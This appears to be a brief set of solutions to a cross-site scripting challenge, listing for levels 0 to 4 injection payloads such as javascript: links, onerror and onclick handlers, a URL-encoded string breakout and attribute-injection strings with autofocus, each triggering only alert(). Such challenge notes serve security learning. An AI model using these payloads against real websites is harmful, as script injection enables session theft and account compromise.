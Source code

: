# XSS: 0

```js
<a href="javascript:alert('0xfff')">try</a>
<a href="" onclick="alert('0xfff')">try</a>
<img src=/ onerror="alert('0xfff')">
```

# XSS: 1

- xss 1 is same as 0,

# XSS: 2

- escaping the string uising +

```js
"%2Balert('0xfff')%2B";
```

# XSS: 3

```js

" onerror='javascript:alert("0xfff")'  autofocus="
```

# XSS: 4

```js
' onfocus='alert(1)'  autofocus='
```
